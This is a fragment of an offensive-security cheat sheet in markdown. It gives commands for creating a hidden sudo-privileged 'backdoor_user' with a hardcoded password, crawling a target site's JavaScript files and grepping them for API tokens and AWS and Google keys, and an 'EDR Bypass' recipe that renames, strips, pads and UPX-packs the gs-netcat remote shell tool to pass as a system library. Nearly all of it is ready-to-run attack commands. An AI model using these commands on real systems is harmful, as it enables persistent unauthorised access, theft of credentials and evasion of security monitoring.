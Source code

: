 ### User Creation
```bash
# Create user
useradd -m -s /bin/bash backdoor_user

# Set password
echo "backdoor_user:SecretPass123" | chpasswd

# Add to sudo
usermod -aG sudo backdoor_user
```

## 🌐 JavaScript Enumeration

### Find JS Files
```bash
# GAU
gau target.com | grep ".js" | tee js_files.txt

# Wayback URLs
waybackurls target.com | grep ".js" | tee js_wayback.txt

# Katana crawler
katana -u https://target.com -jc -silent | tee js_katana.txt
```

### Extract Secrets
```bash
# API keys
grep -E -o "(apiKey|authToken|client_secret|accessToken)[\"'= ]+[^\"' ]+" js_files.txt

# AWS keys
grep -E -o "AKIA[0-9A-Z]{16}" js_files.txt

# Google API keys
grep -E -o "AIza[0-9A-Za-z\\-_]{35}" js_files.txt
```

## 🛡️ EDR Bypass Commands

### Binary Obfuscation
```bash
# Rename binary
mv gs-netcat /usr/bin/ld-linux-x86-64.so.2

# Strip symbols
strip gs-netcat

# Add padding
dd if=/dev/zero bs=1 count=1000 >> gs-netcat

# UPX packing
upx --ultra-brute gs-netcat
```
